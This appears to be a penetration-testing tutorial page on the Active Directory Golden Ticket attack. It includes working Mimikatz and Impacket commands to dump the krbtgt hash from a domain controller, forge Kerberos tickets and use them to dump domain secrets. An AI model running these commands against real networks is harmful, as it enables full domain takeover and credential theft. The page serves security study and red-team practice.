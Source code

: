 # Golden Ticket

#### Priv Required: <mark style="color:purple;">Domain Admin account</mark>

A **Golden Ticket attack** consist on the **creation** of a legitimate Ticket Granding Ticket (TGT) **impersonating any user** through the use of the NTLM hash of the Acrive Directory (AD) **krbtgt account**.\
This tenchnique is particularly advantageos because it enables access to any service or machine within the domain as the impersonated user. It's crucial to remember that the krbtgt account's credentials are never automatically updated.

#### Necessary Elements:

* **Domain SID**
* **NTLM hash** of **krbtgt account**

#### Methodology:

* Extract **Domain Admin** account's **NTML hash**
* Execute **Pass-the-Hash**
* Retrive **KRBTGT Account hash**
* **Forge** and use a Golden Ticket

## Get Domain Info

### SID

{% code title="From Windows" %}
```powershell
powershell -ep bypass
. .\PowerView.ps1

Get-DomainSID
```
{% endcode %}

{% code title="From Linux - Impacket" %}
```bash
cd /usr/share/doc/python3-impacket/examples/ # Kali location
lookupsid.py -hashes '$LMhash:$NThash' '$DOMAIN/$USER@$DOMAIN_CONTROLLER' 0
```
{% endcode %}

## Get Domain Admin Account

the first task is obtained a Domain Admin user account with elevated privilege into Domain Controller.

We can use Pass-the-Hash, crack password hash or find plain-text password.

{% content-ref url="../ad-lateral-movement/pass-the-hash.md" %}
[pass-the-hash.md](../ad-lateral-movement/pass-the-hash.md)
{% endcontent-ref %}

{% content-ref url="../ad-enumeration/password-sprayng.md" %}
[password-sprayng.md](../ad-enumeration/password-sprayng.md)
{% endcontent-ref %}

{% content-ref url="../ad-post-compromise-attacks/kerberoasting.md" %}
[kerberoasting.md](../ad-post-compromise-attacks/kerberoasting.md)
{% endcontent-ref %}

Or other ways...

## Get krbtgt's NTLM hash

The second task is obtain the NTLM hash of the krbtgt account. These are the methods to obtain it:

### LSASS

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computer $DC_NAME

Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"' -Computer $DC_NAME
```

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

### NT Directory Services (NTDS.dll)

...

### DCsync attack



To acquire the NTLM hash of the krbtgt account, various methods can be employed. It can be extracted from the Local Security Authority Subsystem (LSASS) process or the NT Directory Services (NTDS.dll) file located on any Domain controller (DC) within the domain.\
Furthermore, executing a DCsync attack is another strategy to obtain this NTLM hash, which can be performed using tools such as the "lsadump::dcsync" in Mimikatz or the secretsdump.py script by Impacket. It's important to unserscore that to undertake these operations, domain admin pribileges or a similar level of access is typically required.



## Forge Golden Ticket



{% code title="From Windows - Invoke-Mimikatz" overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:$DOMAIN.local /sid:$DOMAIN_SID /krbtgt:$NTLM_HASH_KRBTGT /id:500 /groups:512 /startoffset:0 /end:600 /renewmax:10080 /ptt"'
```
{% endcode %}

> id:**500** or id:**512** it's a default id of administrator user in windows



{% code title="From Linux - Impacket" overflow="wrap" %}
```bash
cd /usr/share/doc/python3-impacket/examples/
# Create the golden ticket (with an RC4 key, i.e. NT hash)
ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" "$RANDOMUSER"

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey "$krbtgtAESkey" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser"

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" -user-id "$USERID" -groups "$GROUPID1,$GROUPID2,..." "randomuser"
```
{% endcode %}



## Use Golden Ticket

### mimikatz

Once we have created the Golden Ticket with mimikatz in the current session, we have to open a new cmd to the current privileges.

```powershell
mimikatz > misc::cmd # this open cmd promt with current privileges
```

### secretsdump.py

{% code overflow="wrap" %}
```bash
export KRB5CCNAME=$(pwd)/NAME.ccache

KRB5CCNAME="NAME.ccache" secretsdump -no-pass -k -dc-ip $DC_IP $DOMAIN.local/$NAME@$MACHINE.$DOMAIN.local
```
{% endcode %}



## GoldenCopy

You encounter limitations with your golden tickets (DACLs, detection)? GoldenCopy retrieves all the information (ID, groups, etc) of a specific user in a neo4j database (bloodhound) and prepares the mimikatz/ticketer command to impersonate his permissions.

{% embed url="https://github.com/Dramelac/GoldenCopy" %}



## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden" %}







